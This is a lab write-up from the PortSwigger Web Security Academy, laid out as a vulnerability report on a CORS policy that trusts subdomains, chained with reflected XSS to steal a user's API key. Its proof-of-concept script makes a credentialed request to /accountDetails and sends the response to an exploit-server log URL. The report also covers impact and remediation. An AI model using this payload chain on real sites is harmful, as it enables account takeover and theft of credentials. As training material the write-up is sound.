


# CORS Misconfiguration – Arbitrary Subdomain Trust with XSS Chain

## Summary

A **CORS misconfiguration** was found that trusts all subdomains (including HTTP) for credentialed cross-origin requests. Combined with a **reflected XSS** on the `stock` subdomain, this allows complete compromise of user accounts through API key theft.

**Severity:** Critical  
**CWE:** CWE-942 / CWE-79

---

## Technical Details

### Vulnerable Endpoint
- **Endpoint:** `/accountDetails`
- **Method:** `GET`
- **Response includes:** `Access-Control-Allow-Credentials: true`

### Step 1 – CORS Origin Reflection

Adding a custom `Origin` header revealed the server reflects any subdomain:

**Response:**
```
Access-Control-Allow-Origin: http://subdomain.YOUR-LAB-ID.web-security-academy.net
Access-Control-Allow-Credentials: true
```

> **[Screenshot 1: Burp Repeater showing reflected Origin header]**
  
### Step 2 – XSS on Trusted Subdomain

The stock check feature at `http://stock.YOUR-LAB-ID.web-security-academy.net` was found vulnerable to XSS via the `productId` parameter. Since this subdomain is trusted by the CORS policy, scripts executing here can make authenticated requests to the main application.

---

## Proof of Concept

The following exploit chains the XSS with the permissive CORS policy:

```html
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

**Attack Flow:**
1. Victim visits attacker's page
2. Redirected to vulnerable HTTP subdomain with XSS payload
3. Injected script makes credentialed CORS request to `/accountDetails`
4. API key exfiltrated to attacker's server

> **[Screenshot 2: Access log showing captured admin API key]**
  
---

## Impact

- Theft of API keys and sensitive account data from authenticated users
- Complete account takeover
- Any XSS on any subdomain becomes a gateway to the main application

---

## Remediation

1. **Whitelist origins** – Never reflect arbitrary `Origin` headers; use a strict allowlist
2. **Block HTTP origins** – Reject non-HTTPS origins for credentialed CORS
3. **Sanitize inputs** – Apply context-aware output encoding on all user-supplied parameters
4. **Enforce HTTPS** – Implement HSTS with `includeSubDomains`
5. **Implement CSP** – Restrict script execution to trusted sources

---

*Discovered in PortSwigger Web Security Academy lab environment.*
